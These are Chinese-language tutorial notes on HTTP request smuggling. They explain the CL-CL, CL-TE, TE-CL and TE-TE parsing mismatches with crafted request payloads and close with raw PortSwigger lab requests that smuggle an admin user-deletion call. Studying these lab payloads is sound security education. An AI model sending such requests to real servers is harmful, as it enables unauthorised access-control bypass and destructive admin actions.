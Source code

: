 # 协议层的攻击 ——HTTP请求走私

- [知道创宇404实验室](https://paper.seebug.org/1048/)
- [追光者](https://sec.kim/archives/1027.html)

## 概念

描述
HTTP请求走私漏洞是由解析HTTP请求的两台设备（比如反向服务器和后端服务器）间RFC协议差异而导致的。诸如Web服务器、应用防火墙、Web缓存服务器使用不同的方式来解析HTTP请求。

![](img/1.jpg)

> 在特定的情况下，一个HTTP请求通道中存在两个或多个HTTP实体，又因为设备见遵循的协议不同，导致之后的HTTP实体被走私到第二台设备中，而第一台设备无法意识到。

![](img/2.png)


![](img/3.png)
>注意事项


## 常见走私方法

- **CL不为0**

假设前端代理服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的Content-Length头，不进行处理。这就有可能导致请求走私。

比如构造请求：

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

前端服务器收到该请求，通过读取 `Content-Length` ，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对Content-Length进行处理，由于`Pipeline` 的存在，它就认为这是收到了两个请求，分别是

```
//第一个
GET / HTTP/1.1\r\n
Host: example.com\r\n

//第二个
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
```


### CL-CL

`假设` 中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是总有服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是中间代理服务器按照第一个Content-Length的值对请求进行处理，而后端源站服务器按照第二个Content-Length的值进行处理。

此时恶意攻击者可以构造一个特殊的请求：

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

中间代理服务器获取到的数据包的长度为 `8` ，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为 `7` 。当读取完前7个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的 `缓冲区` 还剩余一个字母`a` ，对于后端服务器来说，这个 `a` 是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其他的正常用户对服务器进行了请求，假设请求如图所示。

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```

从前面我们也知道了，代理服务器与源站服务器之间一般会重用TCP连接。

这时候正常用户的请求就拼接到了字母a的后面，当后端服务器接收完毕后，它实际处理的请求其实是

```
aGET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```

这时候用户就会收到一个类似于 `aGET request method not found` 的报错。这样的还是太过理想化 也就想想吧.


## CL-TE

CL-TE，就是当收到存在两个请求头的请求包时，前端代理服务器只处理 `Content-Length` 这一请求头，而后端服务器会遵守 RFC2616 的规定，忽略掉 `Content-Length` ，处理 `Transfer-Encoding` 这一请求头。

- [burp官方靶场](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

```
POST / HTTP/1.1\r\n
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
G
```

由于前端服务器处理Content-Length，所以这个请求对于它来说是一个完整的请求，请求体的长度为6，也就是：

```
0\r\n
\r\n
G
```

### TE-CL

TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理Transfer-Encoding这一请求头，而后端服务器处理Content-Length请求头。

![](img/1.png)


关键代码:
```
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理Transfer-Encoding请求头，确实是实现了RFC的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的Transfer-Encoding进行某种混淆操作(如某个字符改变大小写)，从而使其中一个服务器不处理Transfer-Encoding请求头。在某种意义上这还是CL-TE或者TE-CL。


关键代码:
```
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```








POST / HTTP/1.1
Host: acef1f611f83674f80ba14c900370092.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: session=VBsjBfArYahKy5bo2nX43fPVbiPXlFER
Content-Length: 4
Transfer-Encoding: chunked

SB
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 15

NengChen
0




POST / HTTP/1.1
Host: ac381f5d1e63ce66805c082b00e00094.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://ac381f5d1e63ce66805c082b00e00094.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: https://ac381f5d1e63ce66805c082b00e00094.web-security-academy.net
Cookie: session=CexKJlH1ZLzKGBuX8Sj6pojAdnoJ0a5w
Transfer-Encoding: chunked

0


GET /admin/delete?username=carlos HTTP/1.1
X-yfaezR-Ip: 127.0.0.1
Content-Length: 10
Connection: close

123



